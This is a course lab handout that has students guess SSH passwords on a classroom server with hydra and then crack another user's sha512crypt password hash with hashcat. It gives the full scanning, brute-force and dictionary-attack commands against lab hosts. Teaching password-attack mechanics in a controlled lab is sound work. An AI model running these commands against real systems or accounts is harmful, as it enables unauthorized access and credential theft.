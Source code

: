# **Sigurnost računala i podataka (Lab 5)**

## Online and Offline Password Guessing Attacks

### Online Password Guessing

1. Open bash shell in WSL on your local Windows machine.
2. Check that you can reach the lab server by pinging it.
    
    ```bash
    ping a507-server.local
    ```
    
3. Install `nmap` application. In the bash shell execute the following commands.
    
    ```bash
    sudo apt-get update
    sudo apt-get install nmap
    
    # Test it
    nmap
    ```
    
    Try to understand what is `nmap` used for (Google it).
    
4. Next, run the following command.
    
    ```bash
    nmap -v 10.0.15.0/28
    ```
    
    Comment the results.
    
5. Open the following web page [http://a507-server.local/](http://a507-server.local/) and note down the **IP address** of a Docker container and **username** dedicated to you.
6. Try to open a remote shell on the dedicated machine using previous information. Use `ssh` client from your local shell.
    
    ```bash
    # ssh <username>@<your IP address>
    ssh cagalj_mario@10.0.15.1
    ```
    
7. Install `hydra` application. Get to know it. Now, try to perform an **online password guessing attack** against your account. You know the following information about the used password:
    - it is comprised of lowercase letters
    - its length between 4 and 6 characters
    
    **Q1:** Estimate the password space.
    
    ```bash
    # hydra -l <username> -x 4:6:a <your IP address> -V -t 1 ssh
    hydra -l cagalj_mario -x 4:6:a 10.0.15.1 -V -t 1 ssh
    ```
    
    **Q2:** Using the output produced by `hydra` try to estimate your effort, that is how long it would take, on average, before you succeed. You can also try to play with parameter `-t` (**IMPORTANT:** Test values 2, 3, 4 but please do not exaggerate to avoid crushing the server).
    
    **Q3:** What do your do if the estimated time from the previous question is prohibitively large?
    
8. Get the dictionary from [http://a507-server.local:8080/](http://a507-server.local:8080/) as follows (please mind the **group ID**).
    
    ```bash
    # For GROUP 1 (g1)
    wget -r -nH -np --reject "index.html*" http://a507-server.local:8080/dictionary/g1/
    ```
    
9. Finally, use `hydra` with the dictionary as shown below (IMPORTANT: use `dictionary_online.txt`).
    
    ```bash
    # hydra -l <username> -P dictionary/<group ID>/dictionary_online.txt 10.0.15.1 -V -t 4 ssh
    hydra -l cagalj_mario -P dictionary/g1/dictionary_online.txt 10.0.15.1 -V -t 4 ssh
    ```
    
10. Try to login to your machine using the discovered password. Locate password hashes, select one account (different from your own) and try to learn the corresponding password using **offline password guessing** attack as outlined in the sequel.

### Offline Password Guessing

1. For this task, use `hashcat` tool. Install it on your local machine as follows.
    
    ```bash
    sudo apt-get install hashcat
    
    # Test it
    hashcat
    ```
    
2. Save the password hash obtained in the previous task into a file. To make this step somewhat easier, open the present folder in Visual Studio Code by running the following command.
    
    ```bash
    code .
    ```
    
3. Start offline guessing attack by executing the following command. As in the previous task you know the following about the password:
    - it is comprised of lowercase letters
    - its length is exactly 6 characters
    
    ```bash
    # hashcat --force -m 1800 -a 3 <password_hash_file> ?l?l?l?l?l?l --status --status-timer 10
    hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10
    ```
    
    **Q1:** Estimate the password space.
    
    **Q2:** Using the output produced by `hashcat` try to estimate your effort, that is how long it would take, on average, before you succeed.
    
    **Q3:** What do your do if the estimated time from the previous question is prohibitively large?
    
4. If the attack from the previous step is not feasible approach, try a dictionary-based guessing attack (**IMPORTANT:** use `dictionary_offline.txt`). 
    
    As before you can get the dictionary by executing the following in the local (WSL) bash shell (in the same directory where you stored the password hash file).
    
    ```bash
    # For GROUP 1 (g1)
    wget -r -nH -np --reject "index.html*" http://a507-server.local:8080/dictionary/g1/
    ```
    
    Now start `hashcat` using the following command.
    
    ```bash
    # hashcat --force -m 1800 -a 0 <password_hash_file> <dictionary_file> --status --status-timer 10
    hashcat --force -m 1800 -a 0 lab-5-hash.txt dictionary/g1/dictionary_offline.txt --status --status-timer 10
    ```
    
5. Test validity of the cracked password by logging into the remote machine as follows.
    
    ```bash
    # ssh <username>@<your IP address>
    ssh jean_doe@10.0.15.1
    ```